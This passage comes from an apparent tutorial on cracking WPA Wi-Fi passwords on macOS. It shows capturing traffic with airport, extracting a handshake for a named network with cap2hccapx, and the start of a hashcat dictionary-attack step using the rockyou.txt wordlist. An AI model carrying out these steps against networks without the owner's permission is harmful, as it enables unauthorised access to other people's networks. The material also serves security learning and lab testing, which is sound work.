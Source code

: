 ![](./assets/JamWiFi-3.png)

At this point you can stop sniffing with airport.

```
^CSession saved to /tmp/airportSniffP7y2Vj.cap.
```

Convert the capture file to `.hccapx` again.

```
$ cap2hccapx /tmp/airportSniffP7y2Vj.cap donko.hccapx
Networks detected: 13

[Output hidden for conciseness]
[*] BSSID=dc:9b:d6:22:44:5c ESSID=DONKO110816 (Length: 11)
[Output hidden for conciseness]

Written 1 WPA Handshakes to: /Users/adriano/Desktop/donko.hccapx
```

This time it worked! We caught a handshake! Now its time to attack the keys we caught.


#### Run a Dictionary Attack against the hash with hashcat

> Download the [`rockyou.txt`](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist

